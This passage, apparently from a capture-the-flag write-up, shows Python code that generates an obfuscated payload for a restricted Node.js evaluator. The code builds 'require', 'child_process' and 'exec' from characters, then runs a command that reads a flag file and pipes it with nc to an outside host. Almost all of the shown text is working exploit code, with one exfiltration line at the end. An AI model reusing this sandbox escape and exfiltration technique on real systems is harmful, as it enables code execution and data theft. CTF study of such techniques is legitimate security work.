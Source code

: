 ```python
                    print "_[" + str(j) + "]"
                    print "E+_"
                    print "E=_"
                    break
                j += 1


def getQ():

    print "X=E"
    generate("process", a, "A", b, "M")
    print "P=_"
    print "E=''"
    generate("moduleLoadList", a, "A", b, "M")
    print "K=E"
    print "T[P]"
    print "Q=_"
    print "Q[K]"
    print "H=_"
    print "H[47]"
    print "N=_"
    print "N[22]"
    print "Q=_"
```

The getQ function generates the instructions to obtain the letter "q" because there are no "q" on main or EVAL code.

Finally, we wrote the generation of the payload:

```python
# payload generation
generate("re", a, "A", b, "M")
print "R=_"
print "E=''"
getQ()
print "E=''"
generate("uire", a, "A", b, "M")
print "U=_"
print "E=''"
generate("child_process", a, "A", b, "M")
print "R+Q"
print "R=_"
print "R+U"
print "R=_"
print "A(R)"
print "_(E)"
print "F=_" 
print "E=''"
generate("exec", a, "A", b, "M")
print "F[E]"
print "F=_"
print "E=''"

generate("/home/guest/flag_reader | nc myhostname 443", a, "A", b, "M")
```
